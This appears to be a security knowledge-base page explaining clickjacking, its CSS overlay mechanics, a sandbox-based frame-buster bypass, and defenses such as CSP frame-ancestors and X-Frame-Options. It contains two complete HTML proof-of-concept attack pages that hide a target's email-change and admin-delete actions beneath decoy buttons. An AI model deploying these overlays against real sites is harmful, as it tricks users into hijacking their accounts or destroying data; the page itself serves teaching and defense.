

# Clickjacking & UI Redressing Attacks: Mechanics, Bypasses, and Defenses

> **Classification**: OWASP Top 10, CWE-1021 (Improper Restriction of Rendered UI Layers or Frames).
> **Primary Impact**: Tricking users into performing unintended privileged actions (account deletion, email redirection, social media interactions, transactions) on an authenticated target site through a deceptive decoy interface.

---

<!-- TOC_START -->
## Table of Contents
- [1. Attack Mechanics & CSS Layering](#1-attack-mechanics--css-layering)
  - [CSS Positioning Architecture](#css-positioning-architecture)
- [2. Attack Vectors & Exploitation Primitives](#2-attack-vectors--exploitation-primitives)
  - [Prefilled Form Exploitation](#prefilled-form-exploitation)
  - [Multi-Step Clickjacking](#multi-step-clickjacking)
  - [Frame-Buster Script Bypasses](#frame-buster-script-bypasses)
  - [Chaining with DOM XSS](#chaining-with-dom-xss)
- [3. Interactive Tooling: Burp Clickbandit](#3-interactive-tooling-burp-clickbandit)
- [4. Weaponized Exploit Proof-of-Concepts](#4-weaponized-exploit-proof-of-concepts)
  - [Single-Click Transparent Overlay](#single-click-transparent-overlay)
  - [Two-Step Action Confirmation](#two-step-action-confirmation)
- [5. Defensive Architecture & Frame Controls](#5-defensive-architecture--frame-controls)
- [Related Pages](#related-pages)
<!-- TOC_END -->

## 1. Attack Mechanics & CSS Layering

Clickjacking (User Interface Redressing) is an attack where a transparent, malicious iframe hosting a vulnerable application is overlaid on top of an enticing decoy webpage (e.g. "Click here to win a prize"). When the victim clicks on the decoy button, the click is transparently captured by the underlying target iframe.

### CSS Positioning Architecture
The overlay is constructed using four CSS attributes:
1. **`position: absolute / relative`**: Precisely aligns the target action element (e.g. "Delete Account" button) beneath the decoy element.
2. **`z-index`**: Assigns the target iframe a higher stacking order (`z-index: 2`) than the decoy interface (`z-index: 1`).
3. **`opacity`**: Set to a near-zero value (`0.0001` or `0.1` during testing) to render the target invisible while preserving pointer events.
4. **Dimensions (`width`, `height`, `overflow`)**: Clips unnecessary viewport content so only the actionable button aligns with the decoy trigger.



## 2. Attack Vectors & Exploitation Primitives

### Prefilled Form Exploitation
If the target application populates form inputs via GET parameters (e.g. `https://target.com/account?email=hacker@attacker.com`), the attacker pre-populates the malicious state via the iframe `src`. The victim's single click simply submits the prefilled form.

### Multi-Step Clickjacking
For workflows requiring confirmation (e.g. adding items to cart, followed by checkout, or clicking "Confirm Delete"):
- The attacker utilizes multiple decoy triggers positioned across the viewport (`firstClick`, `secondClick`).
- As the user clicks the first trigger, JavaScript repositions the iframe or transitions the decoy layer to align with the subsequent confirmation modal.

### Frame-Buster Script Bypasses
Legacy defenses relied on client-side JavaScript frame-busting scripts:
```javascript
if (top !== self) {
    top.location = self.location;
}
```
Attakers bypass these scripts using the HTML5 iframe `sandbox` attribute:
```html
<iframe src="https://target.com/profile" sandbox="allow-forms allow-scripts"></iframe>
```
By omitting `allow-top-navigation`, the browser executes scripts inside the iframe and permits form submissions, but explicitly **blocks the frame-buster from redirecting the top window**.

### Chaining with DOM XSS
Clickjacking can be combined with DOM XSS to bypass strict user interaction requirements or CSRF token checks:
- The target iframe loads an endpoint vulnerable to reflected or DOM XSS in a query parameter.
- The user's physical click inside the frame triggers an event listener or submits a payload, executing arbitrary JavaScript within the target origin.

## 3. Interactive Tooling: Burp Clickbandit

**Burp Clickbandit** is a browser-based tool built into Burp Suite Professional that generates clickjacking PoCs interactively:
1. Loads the target website in an embedded browser tab.
2. The pentester performs the exact mouse clicks required to execute the target action.
3. Clickbandit automatically calculates pixel offsets, z-index values, and CSS opacity, exporting a turnkey standalone HTML PoC.

## 4. Weaponized Exploit Proof-of-Concepts

### Single-Click Transparent Overlay
```html
<!DOCTYPE html>
<html>
<head>
  <style>
    body { margin: 0; padding: 0; }
    .decoy-button {
      position: absolute;
      top: 300px;
      left: 150px;
      width: 200px;
      height: 45px;
      background: #ff5722;
      color: #fff;
      font-size: 16px;
      font-weight: bold;
      text-align: center;
      line-height: 45px;
      border-radius: 6px;
      z-index: 1;
      cursor: pointer;
    }
    .target-frame {
      position: absolute;
      top: 185px;  /* Calibrated offset */
      left: 60px;   /* Calibrated offset */
      width: 800px;
      height: 600px;
      opacity: 0.0001; /* Set to 0.3 during testing */
      z-index: 2;
    }
  </style>
</head>
<body>
  <div class="decoy-button">Claim Free Rewards!</div>
  <iframe class="target-frame" src="https://target.com/my-account/change-email?email=attacker@pwned.net"></iframe>
</body>
</html>
```

### Two-Step Action Confirmation
```html
<!DOCTYPE html>
<html>
<head>
  <style>
    iframe {
      position: relative;
      width: 700px;
      height: 500px;
      opacity: 0.05;
      z-index: 2;
    }
    .firstClick {
      position: absolute;
      top: 250px;
      left: 100px;
      z-index: 1;
      padding: 10px 20px;
      background: #4caf50;
      color: white;
    }
    .secondClick {
      position: absolute;
      top: 320px;
      left: 100px;
      z-index: 1;
      padding: 10px 20px;
      background: #f44336;
      color: white;
    }
  </style>
</head>
<body>
  <div class="firstClick">Step 1: Verify Identity</div>
  <div class="secondClick">Step 2: Confirm Entry</div>
  <iframe src="https://target.com/admin/delete-database"></iframe>
</body>
</html>
```

## 5. Defensive Architecture & Frame Controls

1. **Content Security Policy (`frame-ancestors`)**: The modern, authoritative standard:
   ```http
   Content-Security-Policy: frame-ancestors 'none';           # Disallow all framing
   Content-Security-Policy: frame-ancestors 'self';           # Allow only same-origin framing
   Content-Security-Policy: frame-ancestors 'self' *.corp.com # Whitelist trusted framing origins
   ```
2. **`X-Frame-Options` (Legacy Defense)**: Supported for backwards compatibility:
   ```http
   X-Frame-Options: DENY
   X-Frame-Options: SAMEORIGIN
   ```
3. **SameSite Cookies**: Using `SameSite=Strict` or `SameSite=Lax` prevents session cookies from being transmitted inside cross-site iframes, effectively rendering framed pages unauthenticated.


## Primary Sources & Provenance
- Provenance source anchor: [[clickjacking]]

## Related Pages
- Parent Hub: [[web-and-bug-bounty]]
- Comparisons: [[clickjacking-vs-csrf]], [[csrf-vs-cors-security]]
- Related Concepts: [[csrf-attacks-and-prevention]], [[cross-site-scripting]], [[account-takeover-and-auth-flaws]]
